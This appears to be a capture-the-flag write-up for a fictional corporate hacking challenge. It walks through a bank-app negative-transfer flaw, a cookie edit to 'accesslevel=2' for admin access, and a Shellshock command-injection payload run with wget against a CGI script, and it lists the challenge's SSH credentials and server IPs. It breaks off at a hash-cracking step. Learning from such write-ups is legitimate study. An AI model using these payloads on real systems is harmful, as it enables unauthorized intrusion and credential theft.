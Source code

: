 # Write-up
Note: try to do it yourself, it is a much more rewarding experience. See this as
a last resort resource.

## 1 - Start
start at:
`http://45.55.54.126/`

want to prove that CEO is embezzling funds.

gives employee portal:
* `104.236.74.251`
* user: `jameson`
* pass: `hunter72`

gives bank interface:
* `104.236.74.251:3000`
* user: `bank`
* pass: `pbeukpbnhovhyixcialnlhpzo`


## 2 - Bank & Employee Portal
### 2.1 - Bank Interface
`http://104.236.74.251:3000/`

turns out it allows negative values:

```
TRANSFER CS -1000.0
(wait 10s)
WITHDRAW 1.0
```

gives URL to scraped accounts:
`http://104.236.74.251:3000/JJJ/all-in-internal-network.txt`

### 2.2 - Employee Portal
starts at: `http://104.236.74.251/`

personal site: `http://104.236.74.251/~dglenn/`

see poems, go up a folder, see files: `http://104.236.74.251/~dglenn/private/`

one of the keys: `http://104.236.74.251/~dglenn/private/key.txt`


also, security notice here: `http://104.236.74.251/mail/isn.html`

it tells us that we want to reach the *new* website (we're currently on the old
one).

it tells us that the new website will be on the internal network (good for us).

it tells us that we'll need 5 keys to access the boss docs.



change cookies so that `accesslevel=2` (`document.cookie="accesslevel=2";`), get
admin.


address of new website: `104.131.92.247`

will need to combine keys here: `http://104.236.74.251/~wscott/keys`

will access the boss dosc here: `http://104.236.74.251/` (user `bdupont`)

## 3 - New Website
`http://104.131.92.247/index.cgi`

Apache & CGI? **SHELLSHOCK**!

`wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/ls" http://104.131.92.247/index.cgi`

[resource](http://security.stackexchange.com/a/68203/44738)

gives us the files:
 * `index.cgi` - has code to trigger Shellshock
 * `index.php` - redirects to `index.cgi`
 * `admin.php` - redirects to `gist.github` and `die()`


`ls` on `/home` (or `cat /etc/passwd`) shows there is a user `jhendricks`

`ls` around (`..`), find file `note`, `cat` it:


```
To: Jim Hendricks
From: Carla Lynn
Date: September 5, 2015
Subject: Public frontend

The public frontend has been set up and can be found at 104.131.92.247

Your user account is as follows:

Username: jhendricks
Password: oXwBJMtx3BJ5yKg

As an IT manager it is your responsibility to make sure this server, as well as our other servers, are frequently updated with the latest patches available.

Please keep this memo safe and change your password immediately.

Regional IT Director
Carla Lynn
```

## 4 - Jhendricks
frontend is at: `104.131.92.247`
* user: `jhendricks`
* pass: `oXwBJMtx3BJ5yKg`

Those are valid SSH creds. Login.


Running `set` to see env vars, see MAIL (learned about that var and that is
represents unread emails).

`cat /var/spool/mail/jhendricks`:

```
From carla@thenorth.com  Sat Sep  5 02:41:53 2015
Return-Path: <carla@thenorth.com>
X-Original-To: jhendricks@thenorth.com
Delivered-To: jhendricks@thenorth.com
Received: by mail3.thenorth.com
  id B24C33FEA3; Sat,  5 Sep 2015 02:41:53 -0400 (EDT)
  Date: Sat, 05 Sep 2015 02:41:53 -0400
  To: jhendricks@thenorth.com
  Subject: Info
  MIME-Version: 1.0
  Content-Type: text/plain; charset=us-ascii
  Content-Transfer-Encoding: 7bit
  Message-Id: <20150905064153.B24C33FEA3@thenorth.com>
  From: carla@thenorth.com (carla)
  Status: RO

  Here are our servers. I'll keep you updated as we get more

  10.132.106.223 - 104.236.251.33
  10.132.3.229 - 45.55.179.181
  10.132.170.147 - 45.55.183.167
  10.132.114.141 - 45.55.47.192
  10.132.34.120 - 104.131.109.3
```


Could login to `45.55.47.192` with `wscott`:
* user: `wscott`
* pass: `oTLhoRZ8JOIDhkD`

## 5 - Wscott
SSH to `45.55.47.192`
* user: `wscott`
* pass: `oTLhoRZ8JOIDhkD`

`cat secretkey/README`:

```
If you're snooping around in this folder, you're
either Wesley (myself) or an intruder. If the latter
is true, get lost.

----

New security policy means that our keys can be combined
to get Bert's secret. Until the security of these
servers is proven in practice keys should be stored on
the old webserver, here:

http://104.236.74.251/~wscott/secret

Key is protected with a passphrase. The passphrase is
not stored in plaintext for security purposes. Instead
it is hashed with /usr/local/bin/securehash. Of course
secure hash is chosen because it is far more secure than
broken hash functions such as MD5.

Oh, and if you're an intruder: securehash is not related
to NIST's "SHA ('Secure' Hash Algorithm)" which is of
course not secure at all. securehash is my own invention
and nobody has broken it at all yet, so you can leave now.

Hash: 84c355da8831b62075d2ad9133ce6512
```
